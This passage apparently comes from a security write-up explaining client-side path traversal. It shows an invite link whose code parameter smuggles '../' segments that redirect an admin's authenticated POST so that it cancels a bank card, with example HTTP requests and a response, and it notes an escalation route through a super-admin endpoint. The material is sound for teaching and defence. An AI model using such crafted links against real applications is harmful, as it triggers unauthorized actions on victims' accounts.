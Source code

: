 `https://example.com/signup/invite?email=foo%40bar.com&inviteCode=123456789/../../../FOO`

```http
POST /FOO/check HTTP/1.1
Host: backend.example.com
Content-Type: application/json
X-Xsrf-Token: My-CSRF-TOKEN
Content-Length: 41
Origin: https://example.com
Connection: close

{"email":"foo@bar.com"}
```

**The Attack**

The crafted invite link was designed to exploit the path traversal vulnerability, altering the final destination URL of the POST request. When an authenticated admin clicked the link, the request was sent to the backend, effectively canceling a bank card without their knowledge. This was possible even though the body of the request remained unchanged.

`https://example.com/signup/invite?email=foo%40bar.com&inviteCode=123456789/../../../cards/123e4567-e89b-42d3-a456-556642440000/cancel?a=`

```http
POST /cards/123e4567-e89b-42d3-a456-556642440000/cancel?a=/check HTTP/1.1
Host: backend.example.com
Accept: application/json; charset=utf-8
X-Xsrf-Token: MY-CSRF-TOKEN
Content-Length: 41
Origin: https://example.com

{"email":"foo@bar.com"}
```

```http
HTTP/1.1 200 OK
Date: Thu, 10 Nov 2022 09:59:05 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 0
Connection: close

[ ... Trimmed for brievety... ]
```



**Bonus Discovery**

Further exploration revealed a super-admin endpoint that accepted similar requests. If the attacker could trick a super-admin into clicking a malicious link, it could escalate privileges, granting super-admin access.

### Using CSPT vulnerability to include external CSS:

{% embed url="https://mr-medi.github.io/research/2022/11/04/practical-client-side-path-traversal-attacks.html" %}
